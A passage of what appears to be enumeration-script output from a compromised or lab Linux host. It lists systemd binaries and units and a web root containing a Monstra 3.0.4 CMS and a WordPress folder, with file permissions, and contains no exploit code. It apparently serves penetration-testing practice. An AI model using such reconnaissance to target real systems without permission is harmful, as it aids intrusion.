drwxr-xr-x  2 root root 4.0K May  1  2018 system-generators
drwxr-xr-x  2 root root 4.0K May  1  2018 system-sleep
drwxr-xr-x  2 root root 4.0K May  1  2018 network
drwxr-xr-x  2 root root 4.0K May  1  2018 system-preset
-rwxr-xr-x  1 root root 442K Mar  8  2018 systemd-udevd
-rwxr-xr-x  1 root root 1.5M Mar  8  2018 systemd
-rwxr-xr-x  1 root root  50K Mar  8  2018 systemd-binfmt
-rwxr-xr-x  1 root root 279K Mar  8  2018 systemd-cgroups-agent
-rwxr-xr-x  1 root root 627K Mar  8  2018 systemd-logind
-rwxr-xr-x  1 root root 122K Mar  8  2018 systemd-networkd-wait-online
-rwxr-xr-x  1 root root 671K Mar  8  2018 systemd-resolved
-rwxr-xr-x  1 root root 142K Mar  8  2018 systemd-shutdown
-rwxr-xr-x  1 root root  74K Mar  8  2018 systemd-sleep
-rwxr-xr-x  1 root root 347K Mar  8  2018 systemd-timedated
-rwxr-xr-x  1 root root  14K Mar  8  2018 systemd-ac-power
-rwxr-xr-x  1 root root 102K Mar  8  2018 systemd-bootchart
-rwxr-xr-x  1 root root 367K Mar  8  2018 systemd-bus-proxyd
-rwxr-xr-x  1 root root  90K Mar  8  2018 systemd-cryptsetup
-rwxr-xr-x  1 root root 307K Mar  8  2018 systemd-fsck
-rwxr-xr-x  1 root root  74K Mar  8  2018 systemd-fsckd
-rwxr-xr-x  1 root root  30K Mar  8  2018 systemd-hibernate-resume
-rwxr-xr-x  1 root root 347K Mar  8  2018 systemd-hostnamed
-rwxr-xr-x  1 root root 283K Mar  8  2018 systemd-initctl
-rwxr-xr-x  1 root root 342K Mar  8  2018 systemd-journald
-rwxr-xr-x  1 root root 355K Mar  8  2018 systemd-localed
-rwxr-xr-x  1 root root  54K Mar  8  2018 systemd-modules-load
-rwxr-xr-x  1 root root 859K Mar  8  2018 systemd-networkd
-rwxr-xr-x  1 root root  30K Mar  8  2018 systemd-quotacheck
-rwxr-xr-x  1 root root  34K Mar  8  2018 systemd-random-seed
-rwxr-xr-x  1 root root  54K Mar  8  2018 systemd-remount-fs
-rwxr-xr-x  1 root root  30K Mar  8  2018 systemd-reply-password
-rwxr-xr-x  1 root root  98K Mar  8  2018 systemd-socket-proxyd
-rwxr-xr-x  1 root root  54K Mar  8  2018 systemd-sysctl
-rwxr-xr-x  1 root root 146K Mar  8  2018 systemd-timesyncd
-rwxr-xr-x  1 root root  34K Mar  8  2018 systemd-user-sessions
-rwxr-xr-x  1 root root  50K Mar  8  2018 systemd-activate
-rwxr-xr-x  1 root root  94K Mar  8  2018 systemd-backlight
-rwxr-xr-x  1 root root  94K Mar  8  2018 systemd-rfkill
-rwxr-xr-x  1 root root 283K Mar  8  2018 systemd-update-utmp
-rwxr-xr-x  1 root root 1.3K Feb 21  2018 systemd-sysv-install
drwxr-xr-x  2 root root 4.0K Feb  9  2018 system-shutdown

/lib/systemd/system:
total 948K
drwxr-xr-x 2 root root 4.0K May  1  2018 halt.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 kexec.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 poweroff.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 sysinit.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 initrd-switch-root.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 multi-user.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 reboot.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 apache2.service.d
drwxr-xr-x 2 root root 4.0K May  1  2018 sockets.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 getty.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 graphical.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 local-fs.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 rescue.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 resolvconf.service.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 sigpwr.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 timers.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 rc-local.service.d
drwxr-xr-x 2 root root 4.0K May  1  2018 systemd-resolved.service.d
drwxr-xr-x 2 root root 4.0K May  1  2018 systemd-timesyncd.service.d
-rw-r--r-- 1 root root  252 Apr 11  2018 snapd.autoimport.service
-rw-r--r-- 1 root root  386 Apr 11  2018 snapd.core-fixup.service
-rw-r--r-- 1 root root  308 Apr 11  2018 snapd.service
-rw-r--r-- 1 root root  287 Apr 11  2018 snapd.snap-repair.service
-rw-r--r-- 1 root root  281 Apr 11  2018 snapd.snap-repair.timer
-rw-r--r-- 1 root root  281 Apr 11  2018 snapd.socket
-rw-r--r-- 1 root root  474 Apr 11  2018 snapd.system-shutdown.service
-rw-r--r-- 1 root root  246 Apr  5  2018 apport-forward.socket
lrwxrwxrwx 1 root root   27 Apr  3  2018 plymouth-log.service -> plymouth-read-write.service
lrwxrwxrwx 1 root root   21 Apr  3  2018 plymouth.service -> plymouth-quit.service
-rw-r--r-- 1 root root  412 Apr  3  2018 plymouth-halt.service
-rw-r--r-- 1 root root  426 Apr  3  2018 plymouth-kexec.service
-rw-r--r-- 1 root root  421 Apr  3  2018 plymouth-poweroff.service
-rw-r--r-- 1 root root  200 Apr  3  2018 plymouth-quit-wait.service
-rw-r--r-- 1 root root  194 Apr  3  2018 plymouth-quit.service
-rw-r--r-- 1 root root  244 Apr  3  2018 plymouth-read-write.service
-rw-r--r-- 1 root root  416 Apr  3  2018 plymouth-reboot.service
-rw-r--r-- 1 root root  532 Apr  3  2018 plymouth-start.service
-rw-r--r-- 1 root root  291 Apr  3  2018 plymouth-switch-root.service
-rw-r--r-- 1 root root  490 Apr  3  2018 systemd-ask-password-plymouth.path
-rw-r--r-- 1 root root  467 Apr  3  2018 systemd-ask-password-plymouth.service
lrwxrwxrwx 1 root root   21 Mar  8  2018 udev.service -> systemd-udevd.service
lrwxrwxrwx 1 root root   14 Mar  8  2018 autovt@.service -> getty@.service
lrwxrwxrwx 1 root root    9 Mar  8  2018 bootlogd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 bootlogs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 bootmisc.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 checkfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 checkroot-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 checkroot.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 cryptdisks-early.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 cryptdisks.service -> /dev/null
lrwxrwxrwx 1 root root   13 Mar  8  2018 ctrl-alt-del.target -> reboot.target
lrwxrwxrwx 1 root root   25 Mar  8  2018 dbus-org.freedesktop.hostname1.service -> systemd-hostnamed.service
lrwxrwxrwx 1 root root   23 Mar  8  2018 dbus-org.freedesktop.locale1.service -> systemd-localed.service
lrwxrwxrwx 1 root root   22 Mar  8  2018 dbus-org.freedesktop.login1.service -> systemd-logind.service
lrwxrwxrwx 1 root root   24 Mar  8  2018 dbus-org.freedesktop.network1.service -> systemd-networkd.service
lrwxrwxrwx 1 root root   24 Mar  8  2018 dbus-org.freedesktop.resolve1.service -> systemd-resolved.service
lrwxrwxrwx 1 root root   25 Mar  8  2018 dbus-org.freedesktop.timedate1.service -> systemd-timedated.service
lrwxrwxrwx 1 root root   16 Mar  8  2018 default.target -> graphical.target
lrwxrwxrwx 1 root root    9 Mar  8  2018 fuse.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 halt.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 hostname.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 hwclock.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 killprocs.service -> /dev/null
lrwxrwxrwx 1 root root   28 Mar  8  2018 kmod.service -> systemd-modules-load.service
lrwxrwxrwx 1 root root   28 Mar  8  2018 module-init-tools.service -> systemd-modules-load.service
lrwxrwxrwx 1 root root    9 Mar  8  2018 motd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 mountall-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 mountall.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 mountdevsubfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 mountkernfs.service -> /dev/null
[-] www home dir contents:
/var/www/:
total 12K
drwxr-xr-x  3 root     root     4.0K Feb  9  2018 .
drwxr-xr-x 14 root     root     4.0K Feb  9  2018 ..
drwxr-xr-x  3 www-data www-data 4.0K Feb 21  2018 html

/var/www/html:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Feb 21  2018 .
drwxr-xr-x 3 root     root     4.0K Feb  9  2018 ..
-rw-r--r-- 1 root     root      11K Feb 21  2018 index.html
-rw-r--r-- 1 root     root      208 Feb 21  2018 robots.txt
drwxr-xr-x 4 root     root     4.0K Feb 21  2018 webservices

/var/www/html/webservices:
total 16K
drwxr-xr-x  4 root     root     4.0K Feb 21  2018 .
drwxr-xr-x  3 www-data www-data 4.0K Feb 21  2018 ..
drwxr-xr-x 11 root     root     4.0K Feb 21  2018 monstra-3.0.4
drwxr-xr-x  5 root     root     4.0K May  2  2018 wp

/var/www/html/webservices/monstra-3.0.4:
total 100K
drwxr-xr-x 11 root root 4.0K Feb 21  2018 .
drwxr-xr-x  4 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root  518 Apr  5  2016 .gitignore
-rwxr-xr-x  1 root root 2.2K Feb 21  2018 .htaccess
-rwxr-xr-x  1 root root  16K Apr  5  2016 CHANGELOG.md
-rwxr-xr-x  1 root root 1.1K Apr  5  2016 LICENSE.md
-rwxr-xr-x  1 root root 1.9K Apr  5  2016 README.md
drwxr-xr-x  3 root root 4.0K Feb 21  2018 admin
drwxr-xr-x  2 root root 4.0K Apr  5  2016 backups
drwxr-xr-x  2 root root 4.0K Apr  5  2016 boot
drwxr-xr-x  5 root root 4.0K Apr  5  2016 engine
-rwxr-xr-x  1 root root 1.2K Apr  5  2016 favicon.ico
-rwxr-xr-x  1 root root 1.9K Apr  5  2016 index.php
-rwxr-xr-x  1 root root 1.9K Feb 21  2018 index_copy.php
drwxr-xr-x  5 root root 4.0K Apr  5  2016 libraries
drwxr-xr-x  9 root root 4.0K Apr  5  2016 plugins
drwxr-xr-x  5 root root 4.0K Apr  5  2016 public
-rwxr-xr-x  1 root root   92 Apr  5  2016 robots.txt
-rwxr-xr-x  1 root root 1.8K Apr  5  2016 rss.php
-rw-rw-rw-  1 root root  730 Feb 21  2018 sitemap.xml
drwxr-xr-x  7 root root 4.0K Apr  5  2016 storage
drwxr-xr-x  5 root root 4.0K Apr  5  2016 tmp

/var/www/html/webservices/monstra-3.0.4/admin:
total 20K
drwxr-xr-x  3 root root 4.0K Feb 21  2018 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root 6.5K Apr  5  2016 index.php
drwxr-xr-x  3 root root 4.0K Apr  5  2016 themes

/var/www/html/webservices/monstra-3.0.4/admin/themes:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Feb 21  2018 ..
drwxr-xr-x 4 root root 4.0K Apr  5  2016 default

/var/www/html/webservices/monstra-3.0.4/admin/themes/default:
total 36K
drwxr-xr-x 4 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 css
-rwxr-xr-x 1 root root 8.9K Apr  5  2016 index.template.php
drwxr-xr-x 2 root root 4.0K Apr  5  2016 js
-rwxr-xr-x 1 root root 7.0K Apr  5  2016 login.template.php

/var/www/html/webservices/monstra-3.0.4/admin/themes/default/css:
total 20K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  11K Apr  5  2016 default.css

/var/www/html/webservices/monstra-3.0.4/admin/themes/default/js:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  681 Apr  5  2016 default.js

/var/www/html/webservices/monstra-3.0.4/backups:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root    0 Apr  5  2016 .empty
-rwxr-xr-x  1 root root   13 Apr  5  2016 .htaccess

/var/www/html/webservices/monstra-3.0.4/boot:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root 1.9K Apr  5  2016 defines.php

/var/www/html/webservices/monstra-3.0.4/engine:
total 76K
drwxr-xr-x  5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root 2.4K Apr  5  2016 Alert.php
-rwxr-xr-x  1 root root  11K Apr  5  2016 Monstra.php
-rwxr-xr-x  1 root root 4.4K Apr  5  2016 Option.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Plugin
-rwxr-xr-x  1 root root 6.4K Apr  5  2016 Security.php
-rwxr-xr-x  1 root root 4.4K Apr  5  2016 Shortcode.php
-rwxr-xr-x  1 root root 5.5K Apr  5  2016 Site.php
-rwxr-xr-x  1 root root 3.8K Apr  5  2016 Uri.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Xmldb
-rwxr-xr-x  1 root root  838 Apr  5  2016 _init.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 boot

/var/www/html/webservices/monstra-3.0.4/engine/Plugin:
total 72K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 3.3K Apr  5  2016 Action.php
-rwxr-xr-x 1 root root  388 Apr  5  2016 Backend.php
-rwxr-xr-x 1 root root 3.7K Apr  5  2016 Filter.php
-rwxr-xr-x 1 root root  739 Apr  5  2016 Frontend.php
-rwxr-xr-x 1 root root 5.5K Apr  5  2016 I18n.php
-rwxr-xr-x 1 root root 5.0K Apr  5  2016 Javascript.php
-rwxr-xr-x 1 root root 6.9K Apr  5  2016 Navigation.php
-rwxr-xr-x 1 root root 5.2K Apr  5  2016 Plugin.php
-rwxr-xr-x 1 root root 5.8K Apr  5  2016 Stylesheet.php
-rwxr-xr-x 1 root root 5.5K Apr  5  2016 View.php

/var/www/html/webservices/monstra-3.0.4/engine/Xmldb:
total 40K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 2.1K Apr  5  2016 DB.php
-rwxr-xr-x 1 root root  24K Apr  5  2016 Table.php
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 XML.php

/var/www/html/webservices/monstra-3.0.4/engine/boot:
total 24K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  271 Apr  5  2016 actions.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 defines.php
-rwxr-xr-x 1 root root  510 Apr  5  2016 filters.php
-rwxr-xr-x 1 root root  216 Apr  5  2016 shortcodes.php

/var/www/html/webservices/monstra-3.0.4/libraries:
total 20K
drwxr-xr-x  5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
drwxr-xr-x 29 root root 4.0K Apr  5  2016 Gelato
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Idiorm
drwxr-xr-x  2 root root 4.0K Apr  5  2016 PHPMailer

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato:
total 164K
drwxr-xr-x 29 root root 4.0K Apr  5  2016 .
drwxr-xr-x  5 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Agent
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Arr
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Cache
drwxr-xr-x  2 root root 4.0K Apr  5  2016 ClassLoader
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Cookie
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Curl
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Date
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Debug
drwxr-xr-x  3 root root 4.0K Apr  5  2016 ErrorHandler
drwxr-xr-x  2 root root 4.0K Apr  5  2016 FileSystem
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Form
-rwxr-xr-x  1 root root 3.2K Apr  5  2016 Gelato.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Html
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Http
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Image
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Inflector
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Log
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Minify
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Notification
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Number
-rwxr-xr-x  1 root root  240 Apr  5  2016 README.md
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Registry
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Security
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Session
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Text
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Url
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Validation
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Zip
drwxr-xr-x  2 root root 4.0K Apr  5  2016 _logs
-rwxr-xr-x  1 root root  576 Apr  5  2016 changelog.txt
-rwxr-xr-x  1 root root  34K Apr  5  2016 license.txt

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Agent:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.6K Apr  5  2016 Agent.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Arr:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 4.7K Apr  5  2016 Arr.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Cache:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 5.3K Apr  5  2016 Cache.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/ClassLoader:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 5.8K Apr  5  2016 ClassLoader.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Cookie:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.3K Apr  5  2016 Cookie.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Curl:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 4.2K Apr  5  2016 Curl.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Date:
total 24K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  15K Apr  5  2016 Date.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Debug:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 2.7K Apr  5  2016 Debug.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/ErrorHandler:
total 24K
drwxr-xr-x  3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 9.2K Apr  5  2016 ErrorHandler.php
drwxr-xr-x  3 root root 4.0K Apr  5  2016 Resources

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/ErrorHandler/Resources:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 3 root root 4.0K Apr  5  2016 Views

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/ErrorHandler/Resources/Views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 Errors

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/ErrorHandler/Resources/Views/Errors:
total 24K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 8.7K Apr  5  2016 exception.php
-rwxr-xr-x 1 root root  843 Apr  5  2016 production.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/FileSystem:
total 36K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 5.2K Apr  5  2016 Dir.php
-rwxr-xr-x  1 root root  17K Apr  5  2016 File.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Form:
total 20K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  11K Apr  5  2016 Form.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Html:
total 20K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  11K Apr  5  2016 Html.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Http:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.3K Apr  5  2016 Request.php
-rwxr-xr-x  1 root root 4.0K Apr  5  2016 Response.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Image:
total 28K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  19K Apr  5  2016 Image.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Inflector:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 6.9K Apr  5  2016 Inflector.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Log:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 1.5K Apr  5  2016 Log.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Minify:
total 24K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 7.4K Apr  5  2016 MinifyCSS.php
-rwxr-xr-x  1 root root 1.2K Apr  5  2016 MinifyHTML.php
-rwxr-xr-x  1 root root 1.4K Apr  5  2016 MinifyJS.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Notification:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.5K Apr  5  2016 Notification.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Number:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 5.9K Apr  5  2016 Number.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Registry:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 2.2K Apr  5  2016 Registry.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Security:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 2.3K Apr  5  2016 Token.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Session:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 4.0K Apr  5  2016 Session.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Text:
total 20K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  12K Apr  5  2016 Text.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Url:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 2.9K Apr  5  2016 Url.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Validation:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 5.0K Apr  5  2016 Valid.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Zip:
total 32K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  24K Apr  5  2016 Zip.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/_logs:
total 8.0K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root    0 Apr  5  2016 .empty

/var/www/html/webservices/monstra-3.0.4/libraries/Idiorm:
total 88K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  78K Apr  5  2016 ORM.php

/var/www/html/webservices/monstra-3.0.4/libraries/PHPMailer:
total 100K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  89K Apr  5  2016 PHPMailer.php

/var/www/html/webservices/monstra-3.0.4/plugins:
total 40K
drwxr-xr-x  9 root root 4.0K Apr  5  2016 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root   13 Apr  5  2016 .htaccess
drwxr-xr-x  5 root root 4.0K Apr  5  2016 blog
drwxr-xr-x 17 root root 4.0K Apr  5  2016 box
drwxr-xr-x  5 root root 4.0K Apr  5  2016 captcha
drwxr-xr-x  4 root root 4.0K Apr  5  2016 codemirror
drwxr-xr-x  4 root root 4.0K Apr  5  2016 markdown
drwxr-xr-x  4 root root 4.0K Apr  5  2016 markitup
drwxr-xr-x  5 root root 4.0K Apr  5  2016 sandbox

/var/www/html/webservices/monstra-3.0.4/plugins/blog:
total 40K
drwxr-xr-x 5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 9 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  768 Apr  5  2016 README.md
-rwxr-xr-x 1 root root 9.8K Apr  5  2016 blog.plugin.php
drwxr-xr-x 2 root root 4.0K Apr  5  2016 install
drwxr-xr-x 2 root root 4.0K Apr  5  2016 languages
-rwxr-xr-x 1 root root 1.6K Apr  5  2016 rss.php
drwxr-xr-x 3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/blog/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  458 Apr  5  2016 blog.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/blog/languages:
total 32K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  285 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root  300 Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root  311 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root  393 Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  299 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root  300 Apr  5  2016 tr.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/blog/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 frontend

/var/www/html/webservices/monstra-3.0.4/plugins/blog/views/frontend:
total 32K
